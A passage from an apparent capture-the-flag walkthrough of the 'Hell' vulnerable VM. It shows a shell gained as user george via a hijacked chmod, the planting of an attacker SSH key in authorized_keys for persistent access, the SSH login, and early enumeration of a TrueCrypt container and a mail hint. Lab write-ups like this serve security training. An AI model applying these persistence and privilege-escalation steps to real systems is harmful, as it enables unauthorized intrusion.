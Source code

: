 ```bash
milk_4_life@hell:~$ ./game
I'm listening
$ id
uid=1002(milk_4_life) gid=1002(milk_4_life) euid=1000(george) groups=1000(george),1002(milk_4_life)
$
```

Profit! We now have access to `george`'s home directory :) In order to make the next steps easier, I quickly generated a new ssh key pair using `ssh-keygen`, and added the contents of the resultant `id_rsa.pub` to `.ssh/authorized_keys`. Whats important to note in the below snippet is that the full path of `chmod` is used. If we don’t, we will be hitting the chmod we just fooled to get to this shell in the first place :D

```bash
$ id
uid=1002(milk_4_life) gid=1002(milk_4_life) euid=1000(george) groups=1000(george),1002(milk_4_life)
$ cd /home/george
$ mkdir .ssh
$ /bin/chmod 755 .ssh
$ cd .ssh
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3KB7V05tHJAWFavTgTK1dDIcUUVyUpZA3TYQhydNjeexWDeVzPNUGCo3/XZNgqw0QpaoX5eLm9k9OqxNyr7x5B6Rq2F7ykA0DHglbM4DLJDQRawHgoCzTwxBWAMva3HUbahounJFe9fOaECGZEsCmTF1462wTuZ/SYOO9lSHv38cO8b9nC5lteBz2An34+W/n9X1sxBAlDAHyXmAqJYpoE+gur+YX8j3WPNJbiBu3nVnvpDaR1BnvN1n74/yUtLYziT5Gt7lgRWiaDhzslR+46xbu/YmCyO03ztHhD/lD2JAcoEe43FKFUdh8ZGfBqCq0CbBB86KHhhLzV6QjLHjV root@kali" > authorized_keys
$ /bin/chmod 600 authorized_keys
```

Now we can SSH into the VM as `george`

```bash
root@kali:~# ssh george@192.168.56.102 -i id_rsa
Linux hell 3.2.0-4-486 #1 Debian 3.2.57-3+deb7u2 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Sat Jul  5 19:26:25 2014
george@hell:~$
```

## becoming bazza
George's home directory had what looked like a TrueCrypt container `4.0M Jun 19 21:09 container.tc` in hes home directory. TrueCrypt appeared to be installed on the VM, and attempting to mount the container failed due to an invalid keyfile and or password.

`george` also had mail in `/var/mail`:

```bash
george@hell:~$ cat /var/mail/george/signup.eml
From: admin@rockyou.com
To: super_admin@hell.com
Subject: Account Activation
Date: 13th November 2009

Thanks for signing up for your account. I hope you enjoy our services.
george@hell:~$
```

